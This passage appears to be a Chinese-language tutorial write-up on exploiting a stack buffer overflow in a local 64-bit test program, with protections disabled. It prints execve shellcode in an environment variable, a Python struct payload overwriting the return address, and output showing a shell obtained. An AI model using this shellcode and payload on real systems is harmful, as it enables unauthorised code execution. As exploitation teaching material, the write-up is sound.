 用`getenvaddr`来确定`PWN`变量对`test`输入的地址

```
$ export PWN=`python -c 'print"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"'`
$ ./getenvaddr PWN ./test
PWN will be at 0x7fffffffed03
```

得到地址`0x7fffffffed03`

## 0x04编写Payload

用python的struct模块写payload的话很方便

```python
from struct import *
buf = 'A' * 24 + pack('<Q',0x7fffffffed03)
f = open('a.txt', 'w')
f.write(buf)
f.close()
```

`pack`函数用来处理数据很方便：）

`pack(format,var0,var1...)`按照给定的格式(format)，把后面数据封装成字符串，`<`是按照小端序，`Q`是无符号的八字节整数

## 0x05测试

通过管道的方式输入文件的数据

```
$ (cat a.txt;cat)|./test
23333

whoami
void0red
```

经过测试，确实的得到了shell

## 0x06总结

主要是搞清楚函数调用与返回时栈的变化，测试过程中关闭了防护措施

- ASLR
- stack-protector
- execstack
